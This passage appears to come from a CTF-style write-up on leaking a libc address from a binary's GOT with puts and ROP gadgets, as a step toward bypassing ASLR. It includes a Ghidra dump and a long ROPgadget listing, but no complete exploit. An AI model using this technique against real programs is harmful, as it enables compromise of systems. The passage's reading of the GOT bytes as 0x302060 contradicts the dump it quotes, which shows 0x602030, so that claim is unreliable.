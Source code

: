 
From 00400580, the program will either (1) go to the next instruction 00400586, or (2) return the value of the address of scanf in libc i.e. the one we would obtain from `p scanf` in gef gdb. We then go to .got.plt in the program tree of Ghidra, and see that: 

```
                             DAT_00601038                                    XREF[1]:     __isoc99_scanf:00400580   
        00601038 30              ??         30h    0                                         ?  ->  00602030
        00601039 20              ??         20h     
        0060103a 60              ??         60h    `
        0060103b 00              ??         00h
        0060103c 00              ??         00h
        0060103d 00              ??         00h
        0060103e 00              ??         00h
        0060103f 00              ??         00h
```

The `0x0000000000302060` at address 00601038 is thus the address of scanf in libc (although as mentioned earlier, this will be different everytime the program executes due to ASLR). Thus, our goal is now to print the value at the address 00601038 at execution, which we can do with the puts function. We simply need to load, into the stack, 0x00601038 as the first argument, and then call puts (remember, we control the stack). We will use a rop gadget to achieve this. 

### Extra information
The PLT (.plt in Ghidra) is executed whenever libc functions are called, but it is the GOT that holds the actual libc function addresses (.got.plt in Ghidra). In this case, because NX is enabled, and PLT is executable, it cannot be written into (i.e. the randomized addressed cannot be written in). On the other hand, because of partial RELRO, the GOT is both readable and writable thus the libc addresses will be there. 

### Rop Gadgets
In simple terms, return-oriented programming (rop) gadgets are a set of instructions ending with a return instruction. Running `ROPgadget --binary vuln` gives us a whole list of usable gadgets: 

```bash
asdiml@DESKTOP-XXXXXX:~$ ROPgadget --binary vuln
Gadgets information
============================================================
0x00000000004005ee : adc byte ptr [rax], ah ; jmp rax
0x00000000004005b9 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x0000000000400587 : add al, 0 ; add byte ptr [rax], al ; jmp 0x400530
0x00000000004006d1 : add al, 0xf ; mov dh, 0x45 ; cld ; pop rbp ; ret
0x0000000000400567 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x400530
0x00000000004005bf : add bl, dh ; ret
0x000000000040091d : add byte ptr [rax], al ; add bl, dh ; ret
0x000000000040091b : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400547 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x400530
0x0000000000400722 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x40075b
0x0000000000400847 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x400880
0x000000000040066c : add byte ptr [rax], al ; add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400600
0x000000000040091c : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x000000000040066d : add byte ptr [rax], al ; add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400600
0x0000000000400549 : add byte ptr [rax], al ; jmp 0x400530
0x0000000000400724 : add byte ptr [rax], al ; jmp 0x40075b
0x0000000000400849 : add byte ptr [rax], al ; jmp 0x400880
0x00000000004005f6 : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040066e : add byte ptr [rax], al ; push rbp ; mov rbp, rsp ; pop rbp ; jmp 0x400600
0x00000000004005be : add byte ptr [rax], al ; ret
0x00000000004005f5 : add byte ptr [rax], r8b ; pop rbp ; ret
0x00000000004005bd : add byte ptr [rax], r8b ; ret
0x000000000040066f : add byte ptr [rbp + 0x48], dl ; mov ebp, esp ; pop rbp ; jmp 0x400600
```